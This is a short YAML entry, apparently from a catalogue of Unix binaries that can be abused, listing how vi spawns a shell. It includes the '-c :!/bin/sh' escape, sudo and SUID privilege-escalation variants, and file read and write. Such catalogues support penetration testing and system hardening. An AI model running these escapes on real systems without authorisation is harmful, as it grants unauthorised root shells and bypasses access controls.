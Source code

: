 ```yaml
---
functions:
  execute-interactive:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  sudo-enabled:
    - code: sudo vi -c ':!/bin/sh'
  suid-enabled:
    - code: ./vi -c ':!/bin/sh -p'
  file-read:
    - code: |
        vi file_to_read
  file-write:
    - code: |
        vi file_to_write
        w
---
```

